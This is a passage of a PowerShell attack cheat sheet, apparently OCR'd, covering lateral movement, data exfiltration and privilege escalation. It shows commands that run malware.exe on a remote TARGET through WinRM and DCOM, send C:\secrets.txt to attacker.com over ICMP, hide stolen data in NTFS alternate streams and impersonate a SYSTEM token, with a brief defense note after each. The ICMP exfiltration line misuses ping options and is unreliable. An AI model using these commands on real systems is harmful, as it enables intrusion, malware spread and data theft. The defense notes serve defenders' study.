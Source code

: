 
### **3. Lateral Movement**  
#### **A. PowerShell Remoting (WinRM)**  
```powershell  
# Execute malware on TARGET via WinRM  
Invoke-Command -ComputerName TARGET -ScriptBlock { Start-Process C:\malware.exe } -Credential (Get-Credential)  
```  
- **Purpose**: Spreads malware using administrative credentials.  
- **Defense**:  
  ```powershell  
  # Disable WinRM  
  Disable-PSRemoting -Force  
  ```  

#### **B. DCOM Lateral Movement**  
```powershell  
# Abuse MMC20.Application COM object  
$com = [System.Activator]::CreateInstance([Type]::GetTypeFromProgID("MMC20.Application", "TARGET"))  
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c C:\malware.exe", "7")  
```  
- **Purpose**: Executes code remotely via DCOM.  
- **Defense**: Disable DCOM via `dcomcnfg`.  

---

### **4. Data Exfiltration**  
#### **A. ICMP Covert Channel**  
```powershell  
# Exfiltrate data via ICMP (ping)  
$data = [Convert]::ToBase64String([IO.File]::ReadAllBytes("C:\secrets.txt"))  
ping -n 1 -l 1000 -w 1 attacker.com -p $data  
```  
- **Purpose**: Bypass firewalls using "benign" ICMP.  
- **Defense**: Block oversized ICMP payloads.  

#### **B. NTFS Steganography**  
```powershell  
# Hide data in Alternate Data Stream  
Add-Content -Path "C:\image.jpg" -Value (Get-Content C:\secrets.txt) -Stream "HiddenData"  
```  
- **Purpose**: Evades casual file inspection.  
- **Defense**:  
  ```powershell  
  # Detect ADS  
  Get-Item -Path C:\image.jpg -Stream *  
  ```  

---

### **5. Privilege Escalation**  
#### **A. Token Impersonation**  
```powershell  
# Steal SYSTEM token  
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"  
```  
- **Purpose**: Gain SYSTEM privileges.  
- **Defense**: Restrict `SeDebugPrivilege` via Group Policy.  
